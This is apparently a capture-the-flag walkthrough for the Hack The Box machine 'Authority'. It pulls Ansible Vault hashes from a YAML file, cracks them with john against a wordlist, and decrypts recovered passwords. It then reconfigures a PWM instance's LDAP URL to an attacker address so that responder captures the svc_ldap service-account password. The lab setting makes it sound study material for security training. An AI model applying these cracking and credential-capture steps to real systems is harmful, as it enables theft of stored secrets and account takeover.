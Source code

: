 ```bash
cat main.yml | rg --multiline -e '\$ANSIBLE_VAULT;1.1;AES256$(\n.+)+' | sed 's/\s//g'
```
```bash
ansible2john ansible.hashes > ansible_vault.hash
```
```bash
john ansible_vault.hash -w=/usr/share/wordlists/rockyou.txt
```
```log
!@#$%^&*
```
put each ansible vault hash (`$ANSIBLE_VAULT;1.1;AES256`) its own file -> `ansible.hash.X`
```bash
for x in {1,2,3};do ansible-vault decrypt ansible.hash.$x;done
```
```log
DevT3st@123
pWm_@dm!N_!23
svc_pwm
```

https://authority.htb:8443/pwm/private/login
```log
5017 ERROR_DIRECTORY_UNAVAILABLE (all ldap profiles are unreachable; errors: ["error connecting as proxy user: unable to create connection: unable to connect to any configured ldap url, last error: unable to bind to ldaps://authority.authority.htb:636 as CN=svc_ldap,OU=Service Accounts,OU=CORP,DC=authority,DC=htb reason: CommunicationException (authority.authority.htb:636; PKIX path building failed: sun.security.provider.certpath.SunCertPathBuilderException: unable to find valid certification path to requested target)"])
```
- the `svc_ldap` SA is used to run this [pwm](https://github.com/pwm-project/pwm) instance 

https://authority.htb:8443/pwm/private/config/login
login using `pWm_@dm!N_!23`

#### Forced Authentication via plaintext LDAP to steal the password for the `svc_ldap` SA

https://authority.htb:8443/pwm/private/config/editor
`LDAP` -> `LDAP Directories` -> `default` -> `Connection`  
`LDAP URLs` -> `ldap://10.10.16.8:389`  
![](ldap_urls.png)

setup `responder` to respond to the incoming ldap connection and capture the password for `svc_ldap`
```bash
sudo responder -I tun0
```

